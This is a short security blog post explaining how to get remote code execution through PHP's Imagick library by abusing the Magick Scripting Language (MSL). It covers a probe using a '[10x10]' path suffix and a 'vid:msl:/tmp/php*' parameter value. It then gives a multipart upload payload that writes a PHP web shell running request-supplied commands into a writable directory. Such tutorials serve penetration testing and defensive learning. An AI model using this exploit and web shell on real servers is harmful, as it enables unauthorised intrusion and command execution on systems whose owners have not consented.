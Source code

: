 ```yaml
---
title: "Surprising Imagick with RCE"
description: "Exploiting PHP's Imagick library through MSL scripting to achieve Remote Code Execution (RCE) on a vulnerable server."
---
```


![runcloud-install-imagemagick-imagick-single-720x183](https://github.com/kris3c/kris3c.github.io/assets/128035061/9e7d1a0c-38da-461a-b0aa-dd523c149f7b)

`Date : 27-12-2023`

Hey Hackers, In this article we will understand how we can abuse the imagic fucntion of php to execute our php code and gain RCE on the server.

### Table of Content


1. [Understanding Imagick](#understanding-imagick)
2. [Testing the vulnerability](#testing-the-vulnerability)
3. [Exploitation](#exploitation)

### Understanding Imagick 

Imagick is a library in PHP that allows us to manipulate any image file. It supports different formats png, jpg, txt etc but the most interesting supported format is MSL.

MSL stands for Magick Scripting Language and it is based on XML. It facilitate reading of images , manipulating them and storing them back in the filesystem.

Example :

```
touch /tmp/test/test.msl
```

```
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="http://IP/image.png" />
<write filename="/tmp/test/image-exported.png" />
</image>
```

This script will read the file image.png from the provided location and write the file in the /tmp/test directory.

To use the script in PHP we need to use the msl: scheme with in the Imagick function as :

```
php -r '$img = new Imagick("msl:/temp/test.msl");'
```

### Testing the vulnerability 

To test the vulnerability we can simply add "\[10x10]"  at the end of the filename 

```
{php
	path:"var/www/html/image.png[10x10]"
	...
}
```

Now check whether the content length is changed or not. If the content length is changed it indicates that we have access to the imagick library.  

### Exploitation 

```
Required Header :

Content-Type: multipart/form-data; boundary=ABC

Arguments for the required parameters :

vid:msl:/tmp/php*

Example : path paramter is required in the request that takes path of the image.

?path=/var/www/image.png
?path=vid:msl:/tmp/php*
```

**vid: scheme** - This scheme allows us to include tmp file with MSL content without actually knowing the name of the file. Here we are using wildcard with php to manipulate a php file.


```xml
--ABC
Content-Disposition: form-data; name="payload"; filename="payload.msl"
Content-Type: text/plain
 
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;" />
 <write filename="info:</path/to/writeable/directory>/payload.php" />
</image>
--ABC--
```

Steps followed by the application are :

1. Calling the MSL script :  To call out the MSL script we need to know the absolute path of the script but we don't know that so we have used the vid: scheme to include a temp MSL script.
2. Executing the script : First server will read the content (our payload) as caption for the file then it will write the caption as information to the payload.php file.
